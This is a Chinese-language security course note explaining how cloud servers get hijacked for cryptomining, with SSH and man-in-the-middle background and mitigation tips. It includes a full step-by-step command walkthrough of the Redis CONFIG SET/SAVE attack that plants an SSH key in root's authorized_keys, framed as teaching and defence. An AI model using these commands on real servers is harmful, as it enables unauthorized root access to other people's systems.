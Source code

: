 **简介：自己购买的Linux服务器是怎么被挖矿的**

* 背景
    * 进两年很多人购买了云服务器，阿里云、华为云、腾讯云等
    * 出现了情况是经常云服务器有不明进程，cpu使用率90%以上
    * 部署云服务器的被清空-支付比特币才可以还原
    

* N种方式
    * 弱口令爆破入侵
    * webshell文件提权入侵
    * redis端口入侵【最多】

* 最多的现象
    * 不明进程的CPU占有率过高
    * 强制停止，过一会又自动出现

    

* 解决办法
    * 关闭对外监听的端口
    * 查找linux定时任务->清除位置任务
    * redis禁止远程访问 或者 设置复杂密码、不用默认的6379端口
    * 恢复出厂设置
    * ```crontab -l```查看是否有定时任务


* 那这个入侵原理是怎样的？
    * 需要知识：
        * 对称和非对称加密知识、中间人攻击知识、ssh登录流程知识


中间人攻击:
- 非对称加密通信也存在一个致命的弱点，就是它有一个交换公钥的过程
- 琳琳 通过伪造公钥（中间人攻击），不光窃听到 老王 的消息， 还能保证整个过程中  老王 和 二当家小D 都没有察觉！
![image-20210321151933408](http://assets.processon.com/chart_image/60e51a77e0b34d548fbed5c5.png?_=1625627362968)


**简介：玩了那么多的Linux服务器-你知道SSH的原理不**

* 什么是SSH

    * Secure Shell（安全外壳协议，简称SSH）是一种加密的网络传输协议
    * 只是一种协议，存在多种实现，有商业版的也有开源实现的，OpenSSH就是开源实现
    * 它将客户端与服务端之间的消息通过加密保护起来，只讨论SSH在Linux Shell中的用法

* SSH流程解析

    * 使用了RSA非对称加密算法

  ```
  （1）远程主机收到用户的登录请求，把自己的公钥发给用户。
  （2）用户使用这个公钥，将登录密码加密后，发送回来。
  （3）远程主机用自己的私钥，解密登录密码，如果密码正确，就同意用户登录
  
  备注：如果攻击者插在用户与远程主机之间（比如在公共的wifi区域），
  用伪造的公钥，获取用户的登录密码, 再用这个密码登录远程主机，
  那么SSH的安全机制就荡然无存了,这种风险就是著名的"中间人攻击"
  ```

* 第一次登录对方主机，系统会出现下面的提示
```
所谓“公钥指纹”，是指公钥长度较长（这里采用RSA算法，长达1024位），
很难比对，所以对其进行MD5计算，将它变成一个128位的指纹。
下例中是98:2e:d7:e0:de:9f:ac:67:28:c2:42:2d:37:16:58:4d

用户自己衡量以后决定接受这个远程主机的公钥
（远程主机贴出公钥指纹，以便用户自行核对）

接受之后，就可以输入密码，成功后就可以登录,
当远程主机的公钥被接受以后，它就会被保存在文$HOME/.ssh/known_hosts之中。
下次再连接这台主机，系统就会认出它的公钥已经保存在本地了，从而跳过警告部分，直接提示输入密码```
```


入侵阿里云ECS服务器提权实战 **

* 避免违规，大家使用自购阿里云ECS
* 郑重声明⚠️：本集内容只限于小滴课堂用于教学提高业务系统安全性，切勿使用课程思路进行攻击破坏或者获取利益，如产生的一切后果与本人和所属公司无关。

```
《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。

【提供侵入、非法控制计算机信息系统程序、工具罪】提供专门用于侵入、非法控制计算机信息系统的程序、工具，或者明知他人实施侵入、非法控制计算机信息系统的违法犯罪行为而为其提供程序、工具，情节严重的，依照前款的规定处罚

天网恢恢，疏而不漏，一切操作都是可以被追寻到的，ip/设备/网络/基站/监控等等，总有你想不到的方式抓到你
```

* 步骤

```
1、本地ssh-keygen生成一对秘钥
ssh-keygen

2、公钥生成攻击键值, 生成后查看下 cat test.txt
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n";) > test.txt

3、配置Key到Redis中
cat test.txt |redis-cli -h 192.168.243.129 -x set bar

4、登录Redis进行检查，是否已经写入进Redis中
redis-cli -h 192.168.243.129 get bar

5、通过Redis保存机制替换系统文件
config set dir /root/.ssh
config get dir
config set dbfilename "authorized_keys"
save
exit

6、成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys

7、登录远程主机看下效果 ssh -i id_rsa root@192.168.243.129
```
 
回顾入侵流程，利用redis的持久化操作文件权限

* Redis Config Set 命令可以动态地调整 Redis 服务器的配置(configuration)而无须重启。
* Redis Save 命令执行一个同步保存操作，将当前 Redis 实例的所有数据快照(snapshot)以 RDB 文件的形式保存到硬盘。
* Redis支持RDB和AOF两种持久化机制
    * RDB持久化是把当前进程数据生成快照保存到硬盘的过程，触发RDB持久化过程分为手动触发和自动触发
    * redis持久化配置，RDB文件保存在dir配置指定的目录下，文件名通过dbfilename配置指定
    * 通过执行config set dir {newDir} 和 config set dbfilename {newFileName}运行期动态执行
    * 当下次运行时RDB文件会保存到新目录
